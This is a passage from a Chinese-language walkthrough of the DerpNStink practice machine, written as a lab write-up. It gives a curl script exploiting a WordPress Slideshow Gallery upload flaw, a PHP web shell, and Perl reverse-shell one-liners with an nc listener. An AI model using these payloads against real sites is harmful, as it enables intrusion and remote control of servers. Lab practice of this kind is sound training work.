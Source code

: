 # exploit
curl \
    -s \
    -b cookie \
    -H "Expect:" \
    -o /dev/null \
    -F "Slide[id]=" \
    -F "Slide[order]=" \
    -F "Slide[title]=$(mktemp -u | sed -r 's/^.*tmp\.(.*)$/\1/')" \
    -F "Slide[description]=" \
    -F "Slide[showinfo]=both" \
    -F "Slide[iopacity]=70" \
    -F "Slide[galleries][]=1" \
    -F "Slide[type]=file" \
    -F "image_file=@$FILE;filename=$FILE;type=application/octet-stream" \
    -F "Slide[image_url]=" \
    -F "Slide[uselink]=N" \
    -F "Slide[link]=" \
    -F "Slide[linktarget]=self" \
    -F "submit=Save Slide" \
    http://$HOST/$BLOG/$VULN

# cleanup
rm -rf cookie
---------------------------
保存为upload.sh
<pre><?php echo shell_exec($_GET['cmd']);?></pre>
保存为cmd.php
执行：
./upload.sh cmd.php
然后访问:http://derpnstink.local/weblog/wp-content/uploads/slideshow-gallery/cmd.php
这时候正常上传了一个cmd的php恶意代码！

用perl的一句话：
perl -e 'use Socket;$i="192.168.1.19";$p=6677;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

kali开启：
nc -vlp 6677

然后浏览器访问：
http://derpnstink.local/weblog/wp-content/uploads/slideshow-gallery/cmd.php?cmd=perl%20-e%20%27use%20Socket%3B%24i%3D%22192.168.253.138%22%3B%24p%3D6699%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fsh%20-i%22%29%3B%7D%3B%27

这时候拿到了一个反弹shell！当然写入的php也可以是普通的一句话，用蚁剑连接就行的！
或者上传php-reverse-shell.php文件，然后直接访问反弹即可！
